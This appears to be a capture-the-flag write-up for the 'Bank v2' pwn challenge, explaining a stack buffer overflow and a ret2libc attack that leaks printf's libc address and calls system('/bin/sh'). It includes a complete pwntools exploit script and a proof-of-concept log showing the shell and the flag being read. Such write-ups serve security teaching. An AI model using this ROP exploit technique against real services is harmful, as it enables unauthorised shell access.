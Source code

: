 # [__💲 Bank v2💲__](#)

## Description: 

* Our secret files are not available now. We made our authentication system safer than ever! Nobody will bypass it now.. 

## Objective: 

* `Buffer Overflow` and `ret2libc` attack.

## Flag: 🏁
* `INSSEC{th3_v2_v3rs10n_1s_st1ll_pwn4bl3!}`

### Difficulty:
* Hard

## Challenge:

The interface looks like this:

```console
[*] Authentication required!
1. Insert credentials.
2. Leave.
> 1

Password: 
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    14721 segmentation fault (core dumped)  ./bank_v2
```

As we can see, there is a `SegFault` after some "A"s. That means there is a possible `BufferOverflow`.

We run a `checksec` to verify this:

```sh
[*] '/home/w3th4nds/github/Patra_CTF_2021_private/pwn/Bank_v2/bank_v2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`Canary` and `PIE` are disabled, so `bof` will be even easier now.

Let's open a disassembler to analyze the program.

### Disassembly 

We start from `main()`:

```c
undefined8 main(void)

{
  int local_c;
  
  setup();
  local_c = 0;
  printf("\x1b[1;36m");
  printstr("\n[*] Authentication required!\n1. Insert credentials.\n2. Leave.\n> ");
  __isoc99_scanf(&DAT_00400a12,&local_c);
  if (local_c == 1) {
    bank();
  }
  else {
    printf("\x1b[1;31m");
  }
  printstr("[-] Incorrect passowrd!\n");
  printstr("\nExiting..\n");
  return 0;
}
```

We see that there is a call to `bank()`.

### bank()💲

```c
void bank(void)

{
  undefined local_28 [32];
  
  printstr("\nPassword: \n> ");
  read(0,local_28,0x69);
  return;
}
```

There is a visible `Buffer Overflow` because the buffer is 32 byets long and `read` reads up to 0x69.

As long as there is a `Buffer Overflow` and both 
* `PIE`
* `Canary`

are disabled, we can perform a `ret2libc` attack. The libc is given, so we won't need to find it ourselves. Because the challenge runs on `Ubuntu 18.04`, `stack alignment` is necessary.

In order to perform this attack, we need to `leak` a libc address in order to calculate `libc base` and then call something like `system("/bin/sh")`. After we leak the desired address, we need to perform a second `bof` in order to call `system`.

The leak part looks like this:

```python
def leak(junk):
	payload = junk
	payload += p64(rop.find_gadget(['pop rdi'])[0])
	payload += p64(e.got['printf'])
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(e.plt['printf'])
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(e.symbols['bank'])
	sla('>', payload)
	leaked = u64(rl()[1:-1].ljust(8, b'\x00'))
	libc.address = leaked - libc.symbols['printf']
	success(f'Leaked printf @ {hex(leaked)}')
	success(f'Libc base     @ {hex(libc.address)}')
```

We call `printf` printing `printf` address from `.got`. Then, we return to `bank` function where we will perform a second `bof`.

The system part looks like this:

```python
def shell(junk):
	payload = junk
	payload += p64(rop.find_gadget(['pop rdi'])[0])
	payload += p64(next(libc.search(b'/bin/sh')))
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(libc.symbols['system'])
	sla('>', payload)
	inter()
```

### Exploit 📜

```python
#!/usr/bin/python3.8
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './bank_v2'
_libc = './libc.so.6'

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

libc = ELF(_libc)
e = ELF(fname)
rop = ROP(e)

rl = lambda : r.recvline()
ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()

def leak(junk):
	payload = junk
	payload += p64(rop.find_gadget(['pop rdi'])[0])
	payload += p64(e.got['printf'])
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(e.plt['printf'])
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(e.symbols['bank'])
	sla('>', payload)
	leaked = u64(rl()[1:-1].ljust(8, b'\x00'))
	libc.address = leaked - libc.symbols['printf']
	success(f'Leaked printf @ {hex(leaked)}')
	success(f'Libc base     @ {hex(libc.address)}')
	

def shell(junk):
	payload = junk
	payload += p64(rop.find_gadget(['pop rdi'])[0])
	payload += p64(next(libc.search(b'/bin/sh')))
	payload += p64(rop.find_gadget(['ret'])[0])
	payload += p64(libc.symbols['system'])
	sla('>', payload)
	inter()

def pwn():
	junk = b'i'*40
	sla('>', '1')
	leak(junk)
	shell(junk)

if __name__ == '__main__':
	pwn()
```

### PoC 🏁

```console
[+] Opening connection to 172.17.0.1 on port 1337: Done
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bank_v2'
[+] Leaked printf @ 0x7f1dcdebaf70
[+] Libc base     @ 0x7f1dcde56000
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
INSSEC{th3_v2_v3rs10n_1s_st1ll_pwn4bl3!}
```
